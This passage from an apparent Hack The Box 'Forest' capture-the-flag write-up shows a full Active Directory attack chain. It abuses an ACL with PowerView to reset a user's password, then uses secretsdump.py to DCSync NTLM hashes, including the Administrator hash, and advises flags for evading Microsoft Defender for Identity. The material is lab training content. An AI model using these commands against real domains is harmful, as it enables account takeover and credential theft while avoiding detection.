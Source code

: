 But we already have a user, <mark>magic</mark>, with those privileges, the password of which is unknown. User <mark>svc-alfresco</mark> owns <mark>magic</mark>, so we can abuse ACLs using <mark>PowerView</mark> to change the user's password. This is our second path which I will continue with.

### Abusing ACLs

Saving <mark>svc-alfresco</mark>'s credentials into the <mark>$Cred</mark> variable.

{% highlight shell %}
*Evil-WinRM* PS C:\Users\svc-alfresco\AppData\Local\Temp> $SecPassword = ConvertTo-SecureString 's3cure' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\AppData\Local\Temp> $Cred = New-Object System.Management.Automation.PSCredential('htb.local\svc-alfresco', $SecPassword) 
{% endhighlight %}

Setting a new password in <mark>$magicPassword</mark> variable.

{% highlight shell %}
*Evil-WinRM* PS C:\Users\svc-alfresco\AppData\Local\Temp> $magicPassword = ConvertTo-SecureString 'Pwn3d_by_iwo' -AsPlainText -Force
{% endhighlight %}

Importing <mark>PowerView</mark> and using <mark>Set-DomainUserPassword</mark> to set <mark>magic</mark>'s password to <mark>$magicPassword</mark> utilizing <mark>svc-alfresco</mark> credentials (<mark>$Cred</mark>).

{% highlight shell %}
*Evil-WinRM* PS C:\Users\svc-alfresco\AppData\Local\Temp> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\AppData\Local\Temp> Set-DomainUserPassword -Identity magic -AccountPassword $magicPassword -Credential $Cred -Verbose
Verbose: [Set-DomainUserPassword] Attempting to set the password for user 'magic'
Verbose: [Set-DomainUserPassword] Password for user 'magic' successfully reset
{% endhighlight %}

### Dumping NTLM hashes

By default <mark>secretsdump.py</mark> uses <mark>DRSUAPI</mark> method for dumping NTDS.dit.

Consider using <mark>-use-vss -exec-method mmcexec</mark> flags for bypassing Microsoft Defender. This method doesn't generate any alerts related to identity detections. More about this [here](https://blog.cyberadvisors.com/technical-blog/blog/bypassing-microsoft-defender-for-identity-detections).

Extracting <mark>NTLM hashes</mark> from the htb.local's DC by performing a <mark>DCSync</mark> attack using <mark>secretsdump.py</mark>.

{% highlight shell %}
┌──(iwo㉿kali)-[/usr/share/doc/python3-impacket/examples]                                              
└─$ sudo python3 secretsdump.py -outputfile ~/Desktop/Boxes/Forest/hashes/htb.local -just-dc htb.local/
magic@10.10.10.161                                                             

<SNIP>

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                
[*] Using the DRSUAPI method to get NTDS.DIT secrets                                            
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::

<SNIP>
{% endhighlight %}
